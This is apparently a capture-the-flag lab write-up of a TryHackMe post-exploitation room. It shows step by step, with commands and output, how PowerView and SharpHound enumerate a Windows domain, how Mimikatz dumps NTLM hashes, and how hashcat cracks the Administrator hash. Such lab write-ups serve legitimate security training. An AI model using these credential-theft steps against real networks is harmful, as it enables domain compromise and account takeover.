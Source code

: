 ```yaml
---
title: THM - Post Exploitation Basics
tags: [thm, windows, post exploitation, powerview, mimikatz, bloodhunt]
---
```


## Introduction

This room will cover all of the basics of post-exploitation; we'll talk everything from post-exploitation enumeration with PowerView and Bloodhunt, dumping hashes and golden ticket attacks with Mimikatz, basic information gathering using Windows Server tools and logs, and then we will wrap up this room talking abount the basics of maintaining access with persistence Metasploit module and creating a backdoor into the machine to get an instant meterpreter shell if the system is ever shutdown or reset.

## Enumeration w/ Powerview

PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows "net *" commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality. PowerView can be used for enumerating a domain after you have already gained a shell in the system.

We are told to log into the machine through SSH or RDP with the credentials given in the task description. I'll use SSH since I'm a lazy mf and I don't want to install additional software.

```
$ ssh Administrator@10.10.169.239
```

We can see that the machine is a Windows machine and that the domain name is `controller`
```
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>
```

Start Powershell with

```
C:\Users\Administrator> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```

`-ep` allow the current Powershell session to bypass the execution policy and to easily run scripts. Let's assume we have already transfered PowerView inside the Download folder of the compromised machine. We can execute it with

```
PS C:\Users\Administrator> . .\Downloads\PowerView.ps1 
```

We can now enumerate the domain users: all the users stored on a domain controller rather than the computer the user is logged into.

```
PS C:\Users\Administrator> Get-NetUser | select cn

cn                  
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{REDACTED}
sshd
```

Enumerate the domain groups

```
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin*
Administrators 
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

Here some interesting cheatsheets with usefull commands

- [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993) 
- [https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview) 

## Enumeration w/ Bloodhound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the users, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

### Bloodhound installation

Let's assume we already have transfered SharpHound inside the compromised machine. We have to install in our machine Bloodhound

```
$ sudo apt-get install bloodhound
$ sudo neo4j console
```
We can now access neo4j console at `http://localhost:7474` with the default credentials `neo4j:neo4j`.

### Getting loot w/ SharpHound

Execute SharpHound with

```
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
```

Let's collect all the information available in the compromised host

```
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

## Dumping hashes w/ Mimikatz
Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of an active directory network.

We'll be focusing on dumping the NTLM (NT Lan Manager) hashes with Mimikatz and then cracking those hashes using hashcat.

### Dump Hashes w/ Mimikatz

Let's run Mimikatz executable

```
C:\Users\Administrator> cd Downaloads && mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )        
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )       
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/       

```

Make sure that Mimikatz is running as an administrator otherwise it'll not run properly.

```
mimikatz # privilege::debug
Privilege '20' OK
```

Let's dump the NTLM hashes with

```
mimikatz # lsadump::lsa /patch

Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe 

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 15db3a3307f6f5bc574f9ec6832d1680

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

### Crack those hashes w/ hashcat
Now we have to save one hash and try to crack it with hashcat. I'll obviously crack the administrator one.

```
$ hashcat -m 1000 777b7fec870e04dda00cd7260f7bee6 /usr/share/wordlists/rockyou.txt

777b7fec870e04dda00cd7260f7bee6:P@$$W0rd        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 2777b7fec870e04dda00cd7260f7bee6
Time.Started.....: Thu Sep  1 14:32:27 2022 (3 secs)
Time.Estimated...: Thu Sep  1 14:32:30 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3727.1 kH/s (0.23ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10762240/14344384 (75.03%)
Rejected.........: 0/10762240 (0.00%)
Restore.Point....: 10760192/14344384 (75.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: PAKITA&edin/LOVE -> P22880D
```

ET VOILÀ.

